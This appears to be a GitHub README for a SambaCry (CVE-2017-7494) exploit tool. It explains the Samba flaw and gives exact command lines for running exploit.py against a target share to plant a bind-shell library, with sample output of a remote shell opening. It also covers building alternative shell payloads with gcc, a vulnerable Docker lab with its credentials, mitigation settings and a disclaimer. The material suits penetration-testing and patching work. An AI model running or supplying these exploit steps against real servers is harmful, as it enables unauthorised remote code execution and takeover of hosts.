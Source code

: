 Samba is a free software re-implementation of the SMB/CIFS networking protocol. 
Samba provides file and print services for various Microsoft Windows clients and can 
integrate with a Microsoft Windows Server domain, either as a Domain Controller (DC) 
or as a domain member. As of version 4, it supports Active Directory and Microsoft Windows
 NT domains.

Samba in 4.5.9 version and before that is vulnerable to a remote code execution vulnerability 
named SambaCry. CVE-2017-7494 allows remote authenticated users to upload a shared library
 to a writable shared folder, and perform code execution attacks to take control of
  servers that host vulnerable Samba services.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 
4.6.4 does not restrict the file path when using Windows named pipes, which allows
 remote authenticated users to upload a shared library to a writable shared folder,
  and execute arbitrary code via a crafted named pipe.
Exploit

sambacry

To properly run this exploit you will need a patched version of impacket python 
library and the other dependencies in requirements file. To install all of them, 
please run

pip install -r requirements.txt

If you run Python3, you need to run this software in a virtual environment. 
Please follow the steps:

pip install virtualenv
virtualenv -p /usr/bin/python2.7 venv # or wherever your python2.7 resides
source venv/bin/activate.sh

After that you can run it as the following:

./exploit.py -t <target> -e libbindshell-samba.so \
             -s <share> -r <location>/libbindshell-samba.so \
             -u <user> -p <password> -P 6699

For example, if you want to exploit the vulnerable environment with within this repository, run

./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699

And you will get the following output

./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>

Exploit's arguments explained:

usage: exploit.py [-h] -t TARGET -e EXECUTABLE -s REMOTESHARE -r REMOTEPATH
                  [-u USER] [-p PASSWORD] [-P REMOTESHELLPORT]

    -t or —target - Set the remote host to attack.
    -e or —executable - Set the path on your local system where the lib that you want to
     load is located.
    -s or —remoteshare - Remote share where the file will be copied.
    -r or —remotepath - Where the file is located on the remote system.
    -u or —user - Username to log in with.
    -p or —password - Password to use to log in with.
    -P or —remoteshellport - If you are using a bind shell payload, connect to the payload 
    after the attack is executed.

Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have docker installed, 
just run

docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
       vulnerables/cve-2017-7494

If you want to access, use the following credentials.

    User: sambacry
    Password: nosambanocry

Alternative payloads

You can find one example of binding shell payload for this exploit in bindshell-samba.c file.
 Change it as you may find necessary. After that to generate a new binary, use:

gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o

Afftected software

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4
Mitigation

Add the parameter:

nt pipe support = no

to the [global] section of your smb.conf and restart smbd. This prevents clients from accessing 
any named pipe endpoints. Note this can disable some expected functionality for Windows clients.

Also consider mounting the filesystem which is used by samba for its writable share using noexec 
option.
Disclaimer


This or previous program is for Educational purpose ONLY. Do not use it without permission. 
The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages 
caused by direct or indirect use of the information or functionality provided by these programs. 
The author or any Internet provider bears NO responsibility for content or misuse of these 
programs or any derivatives thereof. By using these programs you accept the fact that any 
damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs 
is not opsxcq's responsibility.
